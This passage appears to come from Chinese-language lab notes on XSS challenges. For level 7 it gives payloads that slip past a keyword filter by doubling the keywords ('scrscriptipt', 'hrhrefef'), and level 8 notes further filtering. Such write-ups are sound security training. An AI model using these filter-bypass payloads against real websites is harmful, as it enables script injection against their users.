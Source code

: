 ## level7

经过前面过滤   `">href script  on `​  总结使用这个测试，结果全被过滤了.

​![image](assets/image-20240913170818-sktya4x.png)​

```bash
payload："><scrscriptipt>alert()</scrscriptipt>   那就使用双写呗

payload："><a hrhrefef="javascrscriptipt:alert('XSS')">111</a>
```

​![image](assets/image-20240913105954-nqh3jbw.png)​

## level8

''' href  script 被过滤，大写也不行

​![image](assets/image-20240913181345-yoffzxz.png)​
